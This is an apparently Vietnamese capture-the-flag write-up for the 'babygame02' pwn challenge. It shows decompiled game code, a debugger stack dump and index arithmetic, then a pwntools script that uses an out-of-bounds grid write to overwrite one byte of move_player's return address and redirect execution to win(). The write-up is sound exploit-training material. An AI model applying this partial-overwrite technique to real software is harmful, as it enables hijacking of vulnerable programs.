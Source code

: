 # Babygame02
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4[2]; // [esp+0h] [ebp-AA0h] BYREF
  char v5[2700]; // [esp+Bh] [ebp-A95h] BYREF
  char v6; // [esp+A97h] [ebp-9h]
  int *v7; // [esp+A98h] [ebp-8h]

  v7 = &argc;
  init_player(v4);
  init_map(v5, v4);
  print_map(v5);
  signal(2, (__sighandler_t)sigint_handler);
  do
  {
    do
    {
      v6 = getchar();
      move_player(v4, v6, (int)v5);
      print_map(v5);
    }
    while ( v4[0] != 29 );
  }
  while ( v4[1] != 89 );
  puts("You win!");
  return 0;
}
```
chall này game giống hệt chall `babygame01` tuy nhiên có một số điểm khác. Ta không có câu lệnh gọi tới win. Ý tưởng ban đầu là `ret2win`. Vì thế ta cần 1 bug có thể `overwrite` được địa chỉ nào đó về `win`. 

    *(_BYTE *)(v4[1] + v5 + 90 * *v4) = 46

Tớ nghĩ tới câu lệnh giúp ta exploit chall `babygame01` tuy là có thể `overwrite` thành win nhưng mà nó set 1 byte sau cùng của giá trị đấy thành `46`. Điều này k có ý nghĩa lắm. Mình để ý thấy địa chỉ ret của `move_player` với win chỉ khác nhau mỗi byte cuối =)) hê hê. 

```c
result = (_BYTE *)(v4[1] + v5 + 90 * *v4);
*result = player_tile;
```
Lệnh này giống lệnh trên tuy nhiên nó k set byte sau cùng (sau cùng theo little endian) thành 46, nó set thành `player_tile`, mà `player_tile` ta có thể thay đổi theo ý muốn bằng phím `'l'`

```c
if ( v6 == 'l' )
    player_tile = getchar();
```
Đặt break point ngay lệnh ret của `move_player` lúc này `retAddr` đang được lưu trong stack :

```java
---[0xffffc71c]---│+0x0000: 0x08049709  →  <main+149> add esp, 0x10      ← $esp
0xffffc720│+0x0004: 0xffffc738  →  0x00000004
0xffffc724│+0x0008: 0xffffffc6
0xffffc728│+0x000c: |---[0xffffc743]---|  →  "..................................................[...]"
0xffffc72c│+0x0010: 0x080496eb  →  <main+119> mov BYTE PTR [ebp-0x9], al
0xffffc730│+0x0014: 0xf7ffd020  →  0xf7ffd9d0  →  0x00000000
0xffffc734│+0x0018: 0x00000000
0xffffc738│+0x001c: 0x00000004
0xffffc73c│+0x0020: 0x00000004
0xffffc740│+0x0024: 0x2e000000
gef➤  p win
$1 = {<text variable, no debug info>} 0x804975d <win>
```
Ta có: địa chỉ chứa `retAddr` của `move_player` là `0xffffc71c`, địa chỉ của map `v5` là `0xffffc743` và địa chỉ của `win` là `0x804975d`

Vẫn là phép tính cũ : `(v4[1] + v5 + 90 *v4[0]) = 0xffffc71c` với `v5 = 0xffffc743` và `v4[1]` là chỉ số cột, `v4[0]` là chỉ số hàng `(v4[1]<89, v4[0]<29)`. Nếu cố định `v4[1]` rồi tìm `v4[0]` thì sẽ khá tốn công bởi vì phải chia cho `90` vì vậy ta nên cố định `v4[0]` rồi tìm `v4[1]`. 

Với `v4[0] = 0` thì `v4[1] = 0xffffc71c - 0xffffc743 = -39` (hàng 0 cột -39). Lúc chạy thử và debug thì vô tình ta đã set địa chỉ trong `eax` thành địa chỉ không hợp lệ dẫn đến crash và `eax` thì chứa toàn bộ map của ta

    $eax   : 0xffffc73f  →  "@.................................................[...]"
    ...
    $eax   : 0x40ffc73f

Do đó ta đành tìm cặp khác: với `v4[0] = 1 thì v4[1] = -129` điều này còn tệ hơn trường hợp trước. Ta cần `v4[1]` phải dương nếu không sẽ gặp lỗi tương tự.

Với `v4[0] = -1`, `v4[1] = 51` (hàng -1 cột 51) hoàn toàn hợp lệ. Test thì k gặp lỗi `SIGSEGV` nữa. Bây giờ địa chỉ của phép tính trên đã là nơi chứa `retAddr` của `move_player` rồi, giờ chỉ còn set byte cuối của `ret` thành `win` là hoàn thành. Do chỉ khác 1 byte sau nên chỉ cần set `player_tiles` thành `\x5d` là đủ

## Exploit
do phải gửi theo byte nên viết script vậy =))

```python
from pwn import *
exe = ELF('game', checksec=False)
p = process(exe.path)
p.sendlineafter(b'\n', b'l\x5d')
p.sendlineafter(b'\n', b'd'*47)
p.sendlineafter(b'\n', b'w'*5)
p.interactive()
```
Do lúc đầu move player tới vị trí cần thiết thì chương trình lại k set player_tiles nên tớ set trước =))
Chạy trên Local ok rồi

```java
..........................................................................................
.........................................................................................X
flag.txt not found in current directory
[*] Got EOF while reading in interactive
```
*mạng lag quá nó không in ra hết được :( cập nhật sau*

